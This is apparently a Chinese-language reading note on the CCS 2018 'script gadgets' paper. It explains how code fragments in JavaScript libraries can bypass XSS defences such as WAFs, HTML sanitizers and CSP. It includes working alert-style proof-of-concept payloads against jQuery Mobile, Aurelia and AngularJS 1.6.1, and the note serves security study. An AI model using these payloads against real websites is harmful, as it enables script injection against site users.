 # 基于Gadgets绕过XSS防御机制

这篇文章是之前对CCS 2018 `Code-Reuse Attacks for the Web Breaking Cross-Site Scripting Mitigations via Script Gadgets` 的阅读笔记，最近整理资料发现放了挺久，于是稍做了一些整理和扩展发了出来。

# 0x00 背景

本文主要考虑在可以注入任意HTML代码（富文本编辑器等应用）的条件下，利用JavaScript库中的一些代码片段（Gadget）来绕过常见的XSS防御机制，包括WAF、浏览器的XSS Filter、HTML Sanitizers、Content Security Policy等。

其中WAF考虑对请求值和返回值进行处理的正则匹配型或者字符匹配型WAF，HTML Sanitizers是则指DOMPurify这种基于DOM解析的XSS过滤器，Content Security Policy则主要考虑启用`unsafe-eval`或`strict-dynamic`的情况。

# 0x01 简单例子

和二进制攻击中的Gadget作用类似，本文中的Gadget是指可能被恶意利用的代码片段，下面以一个简单的例子来说明：

```js
var button = document.getElementById("mbutton");
button.innerHTML = button.getAttribute("data-text");
```

在这段代码中，取出了Id为`mbutton`的元素，并将data-text的值赋到了该元素的innerHTML属性。这是一些库中为了实现类似Tooltip等效果常用的一种方式，但是在存在这种代码片段的时候，只要构造如下的元素，就可造成XSS攻击。

```html
<button id="mbutton" data-text="<img src=x onerror=alert(/xss/)>">a</button>
```

# 0x02 Gadget分类

论文中把可利用的Gadget分为几类，具体如下：

## 字符串操作

这种Gadget主要是指对字符串的操作，一个字符串在经过操作后可能变为造成攻击的字符。

例如Polymer中的一段代码`dash.replace(/-[a-z]/g, (m) => m[1].toUpperCase())`，这段代码会把以连字符构成的字符串变为大写，例如像`inner-h-t-m-l`这种字符串处理后会变成`innerHTML`。大部分WAF是对请求值和返回值做匹配，而此时传入的是`inner-h-t-m-l`而不是`innerHTML`，那么就有可能造成绕过。

## 元素创建

这种Gadget是像`document.createElement(input)` `document.createElement("script")` `jQuery("<" + tag + ">")` `jQuery.html(input)` 这种直接创建的标签甚至script的代码片段。当输入一定程度可控时，则可利用这种Gadget。

## 函数创建

这种Gadget是指创建函数的代码段，比如Underscore.js中发现的一段代码：

```js
source = "var __t,__p='',__j=Array.prototype.join," +
"print=function(){__p+=__j.call(arguments,'');};\n" +
source + 'return __p;\n';
var render = new Function(
settings.variable || 'obj', '_', source);
```

这种Gadget会间接执行构造的代码段，在一定条件下可造成攻击。

## JavaScript代码执行

这种Gadget主要是指类似`eval`这种会直接执行传入代码的代码段，例如：

```js
eval(input);
inputFunction.apply();
node.innerHTML = "prefix" + input + "suffix";
scriptElement.src = input;
node.appendChild(input);
```

## 表达式解析

很多前端框架都提供了自己的模版引擎，有着丰富而强大的功能，这种Gadget就是框架中对模版表达式解析执行而造成的问题。例如Aurelia框架中可以用下面这段代码来触发一个代码执行。

```
<div ref=me
s.bind="$this.me.ownerDocument.defaultView.alert(1)"
></div>
```

# 0x03 例子

## 例一

论文中提及的例子很多，本文选取其中一个在jQuery Mobile中的Gadget来介绍：

```js
if (myId) {
    ui.screen.attr("id", myId + "-screen");
    ui.container.attr("id", myId + "-popup");
    ui.placeholder
        .attr("id", myId + "-placeholder")
        .html("<!-- placeholder for " + myId + " -->");
}
```

这个Gadget会提取`data-role`为`popup`的元素，获取其`id`中的内容，并调用`.html`，那么就可以构造一个如下的PoC：

```html
<div data-role=popup id='-->
&lt;script&gt;alert(1)&lt;/script&gt;'>
</div>
```

在这个PoC中，没有`<script>`这种会触发WAF的字符串，用到的属性也是`data-role` `id`等在HTML Sanitizer白名单中的元素，因此该PoC可以绕过大部分的防御手段。

## 例二

虽然文中主要是针对`unsafe-eval`或`strict-dynamic`两种情况作了CSP的绕过，但是在有的情况下，不开启这两个选项也可实现执行，例如下面这个PoC：

```html
<html>
  <head>
    <meta http-equiv=content-security-policy content="object-src 'none';script-src https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js;">
    <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
  </head>
  <body>
     <div ng-app ng-csp>
      <div ng-focus="x=$event" tabindex=0>foo</div>
      <div ng-repeat="(key, value) in x.view">
        <div ng-if=key=="window">{{ value.alert = [1].reduce(value.alert, 'xss') }}</div>
      </div>
    </div>
  </body>
</html>
```

在模版内部中，Angular利用的是下面这个函数来完成调用，并不涉及`eval`等函数，因此在CSP没有开启`unsafe-eval`或`strict-dynamic`的情况下也可实现代码执行。

```
function defaultHandlerWrapper(element, event, handler) {
  handler.call(element, event);
}
```

# 0x04 Gadget发现

对Gadget的查找，作者给出了两种方式，一种是手工查找，一种是基于污点分析的半自动化查找。手工查找本文不做赘述，主要讲基于污点分析的半自动化查找方式。

这种方式是基于2013年CCS的一篇名为`25 Million Flows Later - Large-scale
Detection of DOM-based XSS`的文章。

该方式基于浏览器完成，先对`eval` `document.write`等敏感调用和`innerHTML`做了污点跟踪。然后爬取Alex Top 5000的网站，当发现数据流入了这些敏感调用，就尝试使用预置的一些攻击载荷尝试利用，若利用成功，则找到了一个Gadget。

当然这种方式也存在一些限制，比如作者只对第一级的链接做了分析和尝试、没有做用户交互和验证、在验证的时候没有考虑防御机制的绕过等。

# 0x05 参考链接

+ https://github.com/cure53/DOMPurify
+ https://github.com/google/security-research-pocs/tree/master/script-gadgets
+ https://queue.acm.org/detail.cfm?id=2663760
+ https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html
+ https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
